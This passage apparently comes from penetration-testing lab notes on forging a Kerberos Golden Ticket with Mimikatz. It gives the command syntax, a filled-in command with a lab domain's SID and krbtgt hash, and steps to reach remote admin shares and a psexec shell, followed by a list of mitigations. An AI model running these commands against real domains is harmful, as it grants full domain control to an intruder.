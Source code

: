 	 	11f843aafd22acfb29aef92f6e423994

Now, moving further 

Syntax:

	kerberos::golden /User:Whatever /domain:{domain_name} /sid:{SID} /krbtgt:{NTLM_hash} /id:500 /ptt
	
	/id:500 	500 is the ID of Admin Account
	/ptt 		Pass the Ticket

We are going to **generate a Golden Ticket** here and then we are going to use **Pass the Ticket** and **pass it along** to the **Next Session**, so we are going to utilize that ticket to open up a **Command Prompt** which has access to any Computer on the Domain! 

So in our case:

	kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-301214212-3920777931-1277971883 /krbtgt:11f843aafd22acfb29aef92f6e423994 /id:500 /ptt

After getting it done successfully, 

	misc::cmd
	
A Command Prompt opens up!

	dir \\COMPUTERNAME\c$

How to get a shell?

	psexec.exe \\COMPUTERNAME cmd.exe


<br>

### Mitigations

You can take one or more of these steps to protect against golden ticket attacks.

1.  Enforce a least privilege access model.

    -   Limit user access to only what they need.
    -   Limit the amount of admin accounts to only those who absolutely need it and ensure admin access is not simply added to their day-to-day user account.

2.  Implement multi-factor authentication (MFA) on all external authentication points, including VPN and OWA/O365.

3.  Don’t have RDP open to the internet. Seriously. Port numbers don’t matter. Get RDP behind a VPN, and implement MFA on it.

4.  Fake credentials can be injected into the LSAS cache, which would be tempting to hackers. Seeing these “honeycreds” used would clearly indicate an issue.

5.  Perform the reset of the krbtgt account (twice) in accordance with your password reset policies, or quarterly.

6.  If possible, consider running LSAS in its available protected mode.

7.  Enable Windows Defender Credential Guard on applicable systems (Windows 10 and Server 2016 and above). Do not use on domain controllers.
